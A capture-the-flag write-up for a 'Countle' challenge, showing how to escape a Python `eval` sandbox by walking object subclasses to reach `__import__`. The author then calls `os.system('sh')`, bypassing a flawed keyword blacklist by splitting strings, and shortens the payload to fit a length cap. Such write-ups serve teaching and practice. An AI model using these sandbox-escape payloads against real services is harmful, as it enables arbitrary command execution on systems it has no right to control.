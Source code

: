 ## Countle Training Centre

Category: Misc

In the challenge, we must connect to a server and play the countle game.  

In the source file, it appears that after winning 999999 consecutive rounds, the flag would be printed. However, due to the rate limit enforced, this would take roughly 27 hours, and automation is hence not a viable option. 

<img src="images/source.png" width=600>

Our next best option is to exploit the `eval` call that evaluates our countle expression to give ourselves a shell.  

<img src="images/eval.png" width=600>
<img src="images/blacklist.png" width=600>

From the above, we can see that `eval` is being run in a sandboxed environment, where the `FLAG` variable cannot be referenced, and that most pyjail exploit functions have been blacklisted. Our payload is also restricted to a maximum length of 160.  

Another important detail worth noting is that `builtins` and `cat` are not actually blacklisted, as the list is missing a comma to separate them, so Python's implicit string concatentation causes both keywords to be excluded from the blacklist.


Naturally, the first step would be to escape our sandboxed environment to access normally accessible functions. The code snippet above returns all subclasses inheriting from the `object` class, opening up a wide array of functionalities.  

```python
().__class__.__base__.__subclasses__()
```

The class we are most interested in would be the `warnings.catch_warnings` class, as its module builtins contains the `__import__` method, which we will need to gain access to `os` later on.  

As the Python versions on our system and the server may differ, we can dynamically search for the class through name filtering.

```python
[x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]
```

After instantiating an instance of our class, we can then import the `os` class and invoke a shell as shown below, bypassing the blacklist through string concatenations.  

```python
([x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]()._module.__builtins__["__impor"+"t__"]("o"+"s")).__getattribute__("syste"+"m")("s"+"h")
```

However, we now face the issue of our payload exceeding the length cap (167 characters).  

This can fixed with the following:
- shortening the term used to filter class names
- removing unncessary spaces
- removing addition signs through implicit string concatenations

Putting it all together, we shrink the payload down to 159 characters.  

```python
([x for x in().__class__.__base__.__subclasses__()if"cat"in x.__name__][0]()._module.__builtins__["__impor""t__"]("o""s")).__getattribute__("syste""m")("s""h")
```

After starting the challenge and entering our payload, we can finally spawn a shell and view the actual flag in the server source code.    

<img src="images/flag.png" width=600>